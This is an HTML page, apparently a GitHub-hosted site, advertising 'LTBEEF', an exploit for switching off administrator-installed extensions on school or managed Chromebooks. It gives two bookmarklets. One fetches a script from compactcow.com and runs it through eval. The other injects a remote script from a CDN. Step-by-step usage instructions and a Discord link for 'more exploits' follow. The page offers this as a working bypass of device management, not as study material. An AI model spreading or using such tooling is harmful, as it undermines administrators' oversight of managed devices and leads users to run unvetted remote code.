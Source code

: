 

<h1>LTBEEF</h1>
<p style="text-align: center;">LTBEEF (Literally The Best Exploit Ever Found) is a exploit found by <a href="https://www.bypassi.com">bypassi</a> (Bypassi#7037) and is a great way to disable spyware that was installed on your chromebook by your SysAdmins!
The new UI was created by CompactCow#4717, Ingot ws created by Nebelung#1335<br><i>Site made by Piplup7575#6726, Logo created by LittleMissNyan</i></p>

<p><strong>Please note that this exploit has been patched in newer versions of chrome, and my not work. <a href="https://www.discord.gg/9w8pf35AUC">Join the TN discord for more exploits</a>!</strong></p>

<div style="text-align: center; border: solid; padding: 5px;">
<br><a style="display: block; cursor: pointer; background: #4081BF; font-size: 18px; sans-serif; color: #fff; text-align: center; width: calc(17px) rem; padding: 10px; border-radius: 30px; font-weight: 400; line-height: 1.4rem; box-shadow: 0 2px 0 lightblue; text-decoration: none; width: 8rem; margin-left: auto; margin-right: auto; font-family: Arial;" href="javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});"><strong>LTBEEF</strong></a><br>
<a style="display: block; cursor: pointer; background: #4081BF; font-size: 18px; sans-serif; color: #fff; text-align: center; width: calc(17px) rem; padding: 10px; border-radius: 30px; font-weight: 400; line-height: 1.4rem; box-shadow: 0 2px 0 lightblue; text-decoration: none; width: 8rem; margin-left: auto; margin-right: auto; font-family: Arial;" href="javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
"><strong>Ingot</strong></a>
<p>- Drag either of the above buttons to your bookmarks bar<br>
- Visit <a href="https://chrome.google.com/webstoreHIBDD">https://chrome.google.com/webstorex</a>. (This is a 404 page, and that is ok. If it is blocked, <a href="https://discord.gg/9w8pf35AUC">join the TN Discord server for support</a>!)<br>
- Click the bookmark (<strong>NOTE: This only works on the Chrome Web Store.</strong>)<br>
- Switch off the extentions you don't want to have anymore.<br> 
You're done! The extention should now be disabled.
</p>
</div><br>

